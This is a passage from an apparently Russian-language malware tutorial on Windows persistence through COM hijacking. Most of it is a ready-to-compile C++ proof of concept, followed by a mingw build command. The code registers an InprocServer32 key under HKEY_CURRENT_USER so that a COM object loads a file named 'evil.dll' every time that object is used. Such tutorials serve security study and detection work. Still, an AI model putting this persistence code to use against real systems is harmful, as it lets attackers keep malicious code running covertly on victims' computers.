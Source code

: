 Это прекрасно! :)

### обновление: программистский способ

Я также создал грязный PoC-скрипт `pers.cpp`:

```cpp
/*
pers.cpp
windows low level persistence via 
COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\
  {A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = 
  "C:\\Users\\User\\Desktop\\shared\\
  2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, 
    (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

скомпилируйте его:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
